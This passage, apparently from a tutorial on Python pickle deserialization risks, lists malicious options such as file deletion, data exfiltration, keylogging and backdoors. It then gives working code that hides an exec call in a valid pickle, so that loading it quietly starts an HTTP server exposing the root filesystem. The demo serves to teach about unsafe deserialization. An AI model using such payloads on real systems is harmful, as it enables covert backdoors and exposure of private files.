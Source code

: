 Run `04_advanced_malicious_run.py` for a demo.

Now we could potentially write some really offensive code in the
`evil_function`.

We could:

- delete files
- copy confidential information and send it to some server, email or online
  storage
- create a separate process or thread that listens for keypresses (keylogger)
- start a backdoor server and allow a us to connect and run some manual
  malicious shell commands

## Attach a concealed backdoor server in a valid payload

Let's assume our legit payload is:

```
I123
STOP
```

We could attach a backdoor server as such:

```python
EVIL_STUFF = """
import os
import time

os.popen("python -m http.server 5678 --directory / &")
time.sleep(0.2)
"""

payload = b'I123\n.'
PICKLE_NEWLINE = "\\u000a"
normalised_evil_stuff = EVIL_STUFF.replace('\n', PICKLE_NEWLINE)
malicious_string = (
    f"c__builtin__\nexec\n(V{normalised_evil_stuff}\ntR0"
)
evil_payload = malicious_string.encode() + payload
```

now if you were to call `pickle.loads(evil_payload)` you would get `123` and as
a bonus you would have a process spawned in the background with a backdoor file
listing server, showing all the contents of the root.

You can run `05_attach_backdoor_to_usual_payload.py` for a demo. The backdoor
server automatically stops after 20 seconds.

